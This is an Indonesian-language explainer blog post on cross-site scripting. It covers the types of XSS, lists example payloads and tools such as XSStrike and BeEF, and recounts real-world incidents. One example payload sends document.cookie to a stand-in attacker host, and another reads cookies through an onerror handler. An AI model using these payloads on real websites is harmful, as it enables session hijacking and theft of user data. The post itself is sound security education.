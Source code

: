 ```yaml
---
title: "Mengenal Serangan Cross-Site-Scripting (XSS) pada Website"
pubDate: 2022-07-05T08:36:28.798+0700
updatedDate: 2022-07-05T08:36:28.798+0700
categories: [""]
tags: ["xss-attack","cross-site-scripting"]
description: "Cross-Site-Scripting atau yang disingkat XSS adalah serangan berupa code injection yang menanamkan kode/skrip berbahaya di website yang…"
heroImage: 
    image: ../../assets/d23309750e10/06QYOVknjvvwFBtZd.png
post: https://tridims.medium.com/mengenal-serangan-cross-site-scripting-xss-pada-website-d23309750e10
---
```


Cross\-Site\-Scripting atau yang disingkat XSS adalah serangan berupa code injection yang menanamkan kode/skrip berbahaya di website yang terpercaya\. Serangan ini mengeksploitasi kerentanan XSS untuk mencuri data, mengendalikan sesi pengguna, menjalankan kode jahat, atau digunakan sebagai bagian dari serangan phishing\.


![](../../assets/d23309750e10/06QYOVknjvvwFBtZd.png)


Cross site scripting melakukan serangan injeksi kode pada sisi klien dengan menggunakan sarana halaman website atau web aplikasi\. Peretas akan mengeksekusi skrip berbahaya di browser korban dengan cara memasukkan kode berbahaya ke halaman web atau web aplikasi yang sah\. Serangan ini dapat dilakukan menggunakan JavaScript, VBScript, ActiveX, Flash, dan bahasa sisi klien lainnya\.

Cross site scripting menggunakan aplikasi web untuk menjalankan script berbahaya di dalam browser korban\. Korban secara tidak sadar dapat mendownload dan menjalankan script berbahaya\. Script berbahaya tersebut bisa terdownload karena aplikasi web menampilkan user input tanpa di validasi terlebih dahulu\. Penyerang dapat memasukkan string berupa kode kedalam input web app seperti search, form, dsb\.

## **Jenis\-Jenis Serangan XSS**

### **Reflected XSS \(Non\-Persistent\)**


![](../../assets/d23309750e10/0gUkkfV45hnLz1pwk.png)


Reflected XSS terjadi ketika skrip berbahaya dipantulkan dari web aplikasi ke browser korban\. Dapat terjadi ketika input pengguna yang tidak divalidasi dan tidak tersaring lolos sebagai bagian dari output HTML\. Serangan yang berhasil dapat memungkinkan penyerang untuk mengeksekusi HTML dan JavaScript di browser korban\.

### Stored XSS \(Persistent\)


![](../../assets/d23309750e10/0KzrA1xdgIOheKLCM.png)


Stored XSS merupakan jenis XSS yang paling merusak\. Dalam stored XSS, skrip yang disuntikkan akan disimpan secara permanen di server target, seperti database, forum pesan, visitor log, dan lain\-lain\.

### DOM\-based XSS


![](../../assets/d23309750e10/0nNN6uGtGenAX9dp.png)


Meruparkan jenis XSS dimana script berbahaya dirender secara dinamis ke dalam DOM \(Document Object Model\) \. Dapat dilakukan dengan menuliskan script atau argumen ke dalam url sebuah website\. Contohnya yaitu ```http://www\.example\.com/test\.html\#\<script\>alert\(1\)\</script\>\```.

**Contoh XSS Script**

- ```<script>…</script>```
- ```\<body onload=alert\(‘test1’\)\>```
- ```\<b onmouseover=alert\(‘Wufff\!’\)\>click me\!\</b\>```
- ```\<img src=”http://url\.to\.file\.which/not\.exist" onerror=alert\(document\.cookie\);\>```
- ```\<script\>document\.location=’ [http://www\.attacker\.com/cgi\-bin/cookie\.cgi](http://www.attacker.com/cgi-bin/cookie.cgi) ? foo=’\+document\.cookie\</script\>```


**Tools yang dapat digunakan untuk melakukan XSS**
- Framework XSS Scanner, ada beberapa contoh aplikasi
- XSSer
- XSStrike
- Shuriken
- Xsscrapy
- KNOXSS
- Beef (Browser Exploitation Framework Project, dapat menyediakan script dan server yang dapat digunakan untuk serangan XSS)

## **Dampak Serangan XSS**

Dampak dari serangan XSS dikatakan sesuai dengan jenis serangannya, untuk XSS jenis reflected dan DOM memiliki dampak kerusakan sedang, dan dapat berdampak parah pada jenis serangan stored XSS\. Dengan menggunakan remote code execution pada browser korban, penyerang dapat melakukan berbagai hal mulai dari pencurian data dan kredensial hingga mengirim malware ke korban\.

### **Contoh kasus serangan XSS**

#### 1. **Facebook**


Pada tahun 2011, terdapat tiga buah celah keamanan berbeda yang ditemukan dalam rentah waktu 10 hari\. Isu XSS kedua merupakan yang terburuk menurut saya karena digunakan untuk mendistribusikan serangan phising dan malware\.

#### 2. **British Airways**

Perusahaan penerbangan mengalami security breach pada tahun 2018 yang mempengaruhi 380\.000 transaksi penerbangan\. Penyerang menggunakan script javascript dan XSS attack untuk melacak data consumer\.

#### 3. **eBay**

Ebay pernah menghadapi banyak serangan XSS, dari December 2015 hingga Januari 2016\. Dengan serangan tersebut penyerang dapat mengakses produk pengguna, mencuri detail pembayaran mereka, menjual produk pengguna dengan harga murah, dll\.

## **Daftar Pustaka**

5 Real\-World Cross Site Scripting Examples\. \(2021\) \. Retrieved 28 February 2022, from [https://websitesecuritystore\.com/blog/real\-world\-cross\-site\-scripting\-examples/](https://websitesecuritystore.com/blog/real-world-cross-site-scripting-examples/#:~:text=As%20the%20name%20implies%2C%20stealing,transactions%2C%20personal%20data%2C%20etc)

[https://www\.softwaretestinghelp\.com/cross\-site\-scripting\-xss\-attack\-test/](https://www.softwaretestinghelp.com/cross-site-scripting-xss-attack-test/)

XSS Tutorial\. \(2022\) \. Retrieved 28 February 2022, from [https://hackertarget\.com/xss\-tutorial/](https://hackertarget.com/xss-tutorial/)

Cross Site Scripting \(XSS\) Software Attack \| OWASP Foundation\. \(2022\) \. Retrieved 28 February 2022, from [https://owasp\.org/www\-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)

DOM\-Based Cross Site Scripting \(DOM\-XSS\) \. \(2018\) \. Retrieved 28 February 2022, from [https://medium\.com/iocscan/dom\-based\-cross\-site\-scripting\-dom\-xss\-3396453364fd](https://medium.com/iocscan/dom-based-cross-site-scripting-dom-xss-3396453364fd)



